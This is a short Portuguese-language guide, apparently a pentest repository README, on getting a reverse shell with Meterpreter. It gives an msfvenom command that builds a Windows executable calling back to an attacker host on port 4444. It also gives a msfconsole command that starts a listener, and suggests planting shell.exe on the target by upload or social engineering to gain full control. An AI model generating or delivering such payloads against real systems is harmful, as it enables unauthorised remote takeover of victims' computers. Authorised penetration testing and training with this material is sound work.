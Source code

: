 # 🎯 Execução do Payload - Reverse Shell com Meterpreter

Esta etapa cobre como capturar uma conexão reversa após o acesso inicial.

---

## 🧠 1. Gerar Payload (com msfvenom)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 -f exe > shell.exe
```

- `LHOST`: IP da sua máquina atacante (Kali Linux)
- `LPORT`: Porta para escutar

---

## 📡 2. Configurar o Handler no Metasploit

```bash
msfconsole -r exploit/reverse_shell_payload.rc
```

Este comando executa o script `.rc` que:
- Define o payload
- Inicia o handler
- Escuta passivamente por conexões de shell

---

## 💡 Dica

Você pode colocar o `shell.exe` no alvo via upload ou engenharia social.

Assim que o arquivo for executado no alvo, a conexão reversa será aberta e você terá controle total com `meterpreter`.

